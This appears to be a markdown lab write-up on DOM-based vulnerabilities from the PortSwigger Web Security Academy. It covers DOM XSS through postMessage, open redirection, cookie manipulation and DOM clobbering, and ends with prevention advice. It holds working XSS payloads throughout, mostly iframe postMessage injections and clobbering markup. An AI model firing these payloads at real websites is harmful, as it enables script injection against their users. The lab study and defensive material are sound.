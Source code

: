 # DOM-based vulnerabilities

***what is DOM 
- The DOM is a browser representation of page elements, and JavaScript can securely or insecurely manipulate it.


***What id DOM-XSS
- DOM-based XSS (Cross-Site Scripting) happens when JavaScript in a web page takes untrusted (attacker-controlled) data from a source (like location.hash or document.cookie) and passes it directly into a sink (like innerHTML or eval()) without sanitizing it.

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```


## Lab: DOM XSS using web messages and JSON.parse

Analysis : The SCRIPT
  - Find : addEventListener
```
//Testing Payload 
window.postMessage(
    JSON.stringify({
        type: "load-channel",
        url: "javascript:alert(document.domain)"
    }),
    "*"
);
```

```
<iframe src=https://0acd00030425513d807c034e00090016.web-security-academy.net/ onload='this.contentWindow.postMessage(`{"type":"load-channel","url":"javascript:print()"}`,"*")'>


<iframe src=https://vul.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## Lab: DOM-based open redirection

Analysis :
```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

  - The url parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog"

payload : 

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

<hr>

## Lab: DOM-based cookie manipulation

Analysis :  &'><script>alert(1)</script>
payload : 

```
<iframe src="https://target.web.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://target.web.net';window.x=1;">
```
<hr>

## Lab: Exploiting DOM clobbering to enable XSS

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```


## Lab: Clobbering DOM attributes to bypass HTML filters


Ananlysis :  

```
Paste this in comment postId=3:  

<form id=x tabindex=0 onfocus=print()><input id=attributes>

Payload : 

       <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```


## How to prevent DOM-Based Vulnerabilities:

- Avoid using untrusted data directly in dangerous DOM sinks (e.g., innerHTML, eval, document.write, event handler attributes, location, etc.).

- Validate input with a whitelist – only allow known safe values or patterns.

- Sanitize or encode output based on the context:

    - HTML encoding for HTML contexts.

    - JavaScript encoding for script contexts.

    - CSS encoding for style contexts.

    - URL encoding for links or parameters.

- Use well-tested security libraries (e.g., DOMPurify, OWASP Java Encoder) instead of writing your own sanitizer/encoder.

- Protocol restrictions – block dangerous URI schemes (javascript:, data:, cid:) in URLs from untrusted sources.

- Implement defense-in-depth – combine validation, sanitization, Content Security Policy (CSP), and strict type checks.

- Never trust DOM-created globals – avoid patterns like window.varName || fallback without validation to prevent DOM clobbering.


<hr>

## That packs in:

- Validate → Whitelist input

- Sanitize → Clean dangerous parts

- Encode → Context-specific output encoding

- Never Trust → Any untrusted DOM/URL data

- Always Restrict → Protocols, globals, sinks

- Layer Defenses → CSP, type checks, libraries

